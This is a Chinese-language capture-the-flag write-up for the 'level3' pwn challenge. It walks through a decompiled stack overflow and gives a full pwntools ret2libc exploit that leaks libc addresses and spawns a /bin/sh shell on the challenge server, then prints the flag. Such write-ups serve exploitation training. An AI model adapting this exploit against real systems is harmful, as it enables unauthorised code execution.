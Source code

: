 附件解压得到：level3和libc_32.so.6两个文件。

# IDA

分析level3程序。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}

ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  write(1, "Input:\n", 7u);
  return read(0, &buf, 0x100u); //存在栈溢出漏洞
}
```

程序中未发现system函数。根据给的`libc_32.so.6`文件，可以知道本题是ret2libc。

大致思路：先栈溢出，调用write函数，获取write函数的got表地址，再执行main函数，然后二次一出，执行system('/bin/sh')。

python脚本：

```python
from pwn import *

context.log_level = 'debug'

sh = remote('111.200.241.244', 60680)
elf = ELF('./level3')
elf_libc =ELF('./libc_32.so.6')

write_plt = elf.plt['write'] #write函数plt地址
write_got = elf.got['write'] #write函数got表地址
main_addr = elf.symbols['main'] #main函数地址
elf_system = elf_libc.symbols['system'] 
elf_write = elf_libc.symbols['write']
sh_rela = elf_write - 0x0015902b # /bin/sh与write函数的地址偏移
sys_rela = elf_write - elf_system # system函数与write函数的地址偏移

sh.recv()

#第一次栈溢出
# p32(write_plt) 覆盖eip，下一个执行的函数 plt - got - write
# p32(main_addr) write函数返回地址，也就是write函数执行完毕，执行main函数。
# p32(1) + p32(write_got)  + p32(4) write函数的三个参数。
payload = b'a' * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got)  + p32(4)

sh.sendline(payload)

#获取到write函数的地址。
write_addr = u32(sh.recv()[:4])

sh.recv()

# p32(write_addr - sys_rela) 覆盖eip, 下一个执行函数的地址，也就是system函数
# p32(0) system函数返回值
# p32(write_addr - sh_rela) system函数参数，也就是/bin/sh
payload = b'a' * 140 + p32(write_addr - sys_rela) + p32(0) + p32(write_addr - sh_rela)

sh.sendline(payload)

sh.interactive()
```

得到flag：cyberpeace{78834df84d57a4710d832f58331d9518}

